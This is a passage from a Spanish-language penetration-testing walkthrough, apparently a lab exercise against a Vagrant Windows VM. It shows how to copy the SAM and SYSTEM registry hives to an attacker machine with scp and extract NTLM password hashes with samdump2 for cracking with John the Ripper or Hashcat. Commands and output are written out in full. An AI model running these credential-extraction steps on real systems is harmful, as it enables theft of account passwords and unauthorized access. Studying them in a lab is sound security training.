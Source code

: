 - **Nota**: Reemplazar `HarddiskVolumeShadowCopyX` con el número correspondiente que el script vssown.vbs nos indicó.

### 6. Transferir los Archivos SAM y SYSTEM al atacante

- Previamente, realizar el siguiente comando para identificar la ruta real:

    ```shell
    -sh-4.3$ pwd
    /cygdrive/c/Windows/Temp
    ```

- Usar `scp` o descarga los archivos SAM y SYSTEM desde la máquina víctima a tu máquina atacante para realizar el análisis de los hashes de contraseñas:

    ```shell
    ┌──(user㉿kali)-[~/Downloads]
    └─$ scp vagrant@10.0.2.15:/cygdrive/c/Windows/Temp/SAM .
    vagrant@10.0.2.15's password: 
    SAM                                                                                100%  256KB   3.1MB/s   00:00    
                                                                                                                        
    ┌──(user㉿kali)-[~/Downloads]
    └─$ scp vagrant@10.0.2.15:/cygdrive/c/Windows/Temp/SYSTEM .
    vagrant@10.0.2.15's password: 
    SYSTEM                                                                             100% 7680KB  38.1MB/s   00:00    
                        
    ```

### 7. Extracción de Hashes

Con los archivos SAM y SYSTEM en tu máquina atacante, puedes usar herramientas como samdump2 junto con John the Ripper o Hashcat para extraer y crackear los hashes.

#### Extracción de hashes usando `samdump2`:

- El comando samdump2 SYSTEM SAM > hashes.txt utiliza la utilidad samdump2 para extraer los  hashes de las contraseñas de un sistema Windows.

    ```bash
    samdump2 SYSTEM SAM > hashes.txt
    ```

- Para funcionar, samdump2 requiere dos archivos específicos del registro de Windows: el hive SYSTEM y el hive SAM. El archivo SYSTEM contiene la clave necesaria para descifrar la información almacenada en el archivo SAM (Security Account Manager), que es donde residen los hashes de las contraseñas de los usuarios.

- El comando procesa estos dos archivos, extrae los hashes (normalmente en formato NTLM) y, mediante el operador de redirección >, guarda el resultado en un archivo de texto llamado hashes.txt. Este archivo puede ser usado posteriormente con herramientas de cracking como John the Ripper o Hashcat para intentar obtener las contraseñas en texto plano.

#### Previo delete del archivo que contiene las contraseñas encontradas
